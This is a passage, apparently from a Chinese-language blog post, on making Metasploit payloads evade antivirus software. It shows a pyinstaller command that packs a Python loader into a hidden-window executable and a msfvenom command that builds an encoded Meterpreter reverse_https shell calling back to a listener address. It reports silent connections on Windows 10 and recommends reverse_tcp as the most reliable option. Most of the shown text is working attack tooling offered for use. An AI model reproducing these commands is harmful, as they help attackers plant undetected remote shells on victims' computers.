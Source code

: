 这里用pyinstaller编译

```
pyinstaller -F -w win_tcp.py
```

参数说明

```
-F   产生单个的可执行文件
-w   指定程序运行时不显示命令行窗口（仅对 Windows 有效）
-i   可以指定图标
```

静默上线

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900419522-4f274728-8aef-4c20-83c5-0281c4542d60.png)

#### reverse_https

```
msfvenom -p windows/meterpreter/reverse_https LPORT=443 LHOST=192.168.145.128  -e x86/shikata_ga_nai -i 5 -f py
```

win10静默上线

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900419644-1684219b-fe58-4833-ae59-afff29745ee2.png)

win7会卡住，GG

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900419727-f8320ffa-755d-49ce-9ca7-4f1befd427bf.png)

看来https需要慎用。。。

## 最后

免杀的精髓在于小众。

用C跟C++写的已经被杀得妈都不认了，但是用python转为exe这类比较小众，所以目前还有比较好的免杀效果。

综合以上结果可以得出结论，最稳定好用的还是`windows/meterpreter/reverse_tcp`，涉及到https这种虽然加密但是有可能对方系统不支持。

## 参考

[https://www.cnblogs.com/backlion/p/6785870.html](https:_www.cnblogs.com_backlion_p_6785870)

https://blog.csdn.net/weixin_30339457/article/details/99381871

https://www.jianshu.com/p/92746f59736c

https://xz.aliyun.com/t/5768

[https://www.cnblogs.com/k8gege/p/11223393.html](https:_www.cnblogs.com_k8gege_p_11223393)

[https://www.freebuf.com/column/204005.html](https:_www.freebuf.com_column_204005)
